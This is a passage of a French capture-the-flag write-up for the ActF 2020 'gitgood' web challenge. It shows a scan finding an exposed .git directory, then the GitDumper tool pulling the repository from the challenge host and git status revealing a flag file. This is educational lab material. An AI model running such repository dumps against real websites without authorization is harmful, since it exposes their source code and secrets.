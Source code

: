 ```
[21:55:29] 301 -  197B  - /.git/refs/heads  ->  /.git/refs/heads/
[21:55:29] 200 -   41B  - /.git/refs/heads/master
```
Finalement, nous n'avons pas accès au répertoire '.git' mais il est possible d'avoir accès à tous les fichiers contenu dans ce répertoire.  
Le script n'a pas trouvé tous les fichiers car il manque le répertoire 'objects' caractéristiques de la structure du répertoire '.git'.  
Pour extraire l'ensemble des fichiers contenu dans le répertoire '.git', j'au utiliser l'outil `gitdumper`:
```
$ bash gitdumper.sh https://gitgood.2020.chall.actf.co/.git/ clone
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating tmp/.git/
[+] Downloaded: HEAD
[+] Downloaded: objects/info/packs
[+] Downloaded: **description**
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[+] Downloaded: info/refs
[+] Downloaded: info/exclude
[+] Downloaded: objects/e9/75d678f209da09fff763cd297a6ed8dd77bb35
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/6b/3c94c0b90a897f246f0f32dec3f5fd3e40abb5
[+] Downloaded: objects/94/02d143d3d7998247c95597b63598ce941e7bcb
[+] Downloaded: objects/b6/30430d9d393a6b143af2839fd24ac2118dba79
[+] Downloaded: objects/c2/658d7d1b31848c3b71960543cb0368e56cd4c7
[+] Downloaded: objects/63/8887a54973265c428cd51ce6dfd48f196d91c4
[+] Downloaded: objects/49/b319c37dc674bca682cab0f2506473dda6bd9a
[+] Downloaded: objects/78/9fa5caf452f5f6f25bfa9b1c0ab1d593dce1b3
[+] Downloaded: objects/8f/08af35205d0ba80e94b4f4306311039d62e138
[+] Downloaded: objects/24/7c9d491c0d2d6da5e93afcd0681b3edd7ccd70
[+] Downloaded: objects/0f/52598006f9cdb21db2f4c8d44d70535630289b

$ cd clone
$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .gitignore
	deleted:    index.html
	deleted:    index.js
	deleted:    package-lock.json
	deleted:    package.json
	deleted:    thisistheflag.txt
```